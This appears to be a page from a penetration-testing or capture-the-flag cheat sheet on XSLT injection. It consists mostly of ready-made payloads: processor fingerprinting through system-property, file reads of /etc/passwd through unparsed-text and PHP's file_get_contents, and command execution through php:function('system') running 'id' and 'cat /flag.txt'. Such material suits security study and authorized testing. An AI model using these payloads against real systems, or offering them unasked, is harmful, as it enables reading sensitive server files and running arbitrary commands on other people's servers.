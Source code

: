 # 🤠 XSLT

Merge erased everything, go back and look at the cheat sheet

### Information Disclosure

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

<figure><img src="../../../.gitbook/assets/image (1350).png" alt=""><figcaption></figcaption></figure>

### Local File Inclusion (LFI)

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

it was only introduced in XSLT version 2.0, However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents`

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

### Remote Code Execution (RCE)

```
<xsl:value-of select="php:function('system','id')" />
```



```
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

<figure><img src="../../../.gitbook/assets/image (1349).png" alt=""><figcaption></figcaption></figure>

